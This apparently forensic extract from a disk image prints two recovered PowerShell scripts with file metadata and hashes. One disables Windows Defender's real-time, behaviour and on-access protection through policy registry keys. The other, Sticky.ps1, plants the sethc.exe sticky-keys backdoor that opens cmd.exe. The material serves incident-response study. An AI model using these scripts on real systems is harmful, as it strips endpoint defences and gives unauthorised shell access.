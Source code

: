 ```powershell
Set-MpPreference -DisableBlockAtFirstSeen $True


# Persist Windows Defender features settings in registry
$path = "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender"
if (!(Test-Path -Path $path)) {
    New-Item -Path $path -Force
}
New-ItemProperty -Path $path -Name "DisableAntiSpyware" -PropertyType DWord -Value 1 -Force

$path = "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender\Spynet"
if (!(Test-Path -Path $path)) {
    New-Item -Path $path -Force
}

New-ItemProperty -Path $path -Name "SubmitSamplesConsent" -PropertyType DWord -Value 2 -Force

$path = "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection"
if (!(Test-Path -Path $path)) {
    New-Item -Path $path -Force
}

New-ItemProperty -Path $path -Name "DisableRealtimeMonitoring" -PropertyType DWord -Value 1 -Force
New-ItemProperty -Path $path -Name "DisableBehaviorMonitoring" -PropertyType DWord -Value 1 -Force
New-ItemProperty -Path $path -Name "DisableOnAccessProtection" -PropertyType DWord -Value 1 -Force
New-ItemProperty -Path $path -Name "DisableScanOnRealtimeEnable" -PropertyType DWord -Value 1 -Force
```
```text
Metadata
Name: /img_disk.raw/vol_vol7/tmp/vagrant-shell.ps1
Type: File System
MIME Type: text/plain
Size: 1933
File Name Allocation: Allocated
Metadata Allocation: Allocated
Modified: 2019-08-17 05:36:39 UTC
Accessed: 2019-08-17 05:36:40 UTC
Created: 2019-08-17 05:36:26 UTC
Changed: 2019-08-17 05:36:39 UTC
MD5: e98a5bf691b4b2540f5a429d41a95329
SHA-256: f2624fdf03f7526e78a14f40e9e50b62a36d1f143b065dd0c07bf2f0447a73a6
Hash Lookup Results: UNKNOWN
Internal ID: 46062
```
## `Sticky.ps1`
```powershell
$path = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe"
if (!(Test-Path -Path $path)) {
    New-Item -Path $path -Force
}

New-ItemProperty -Path $path -Name "Debugger" -PropertyType String -Value "C:\windows\system32\cmd.exe" -Force
### Metadata
Name: /img_disk.raw/vol_vol7/Users/Alan/AppData/Local/Temp/Sticky.ps1
Type: File System
MIME Type: text/plain
Size: 277
File Name Allocation: Allocated
Metadata Allocation: Allocated
Modified: 2019-08-17 05:47:41 UTC
```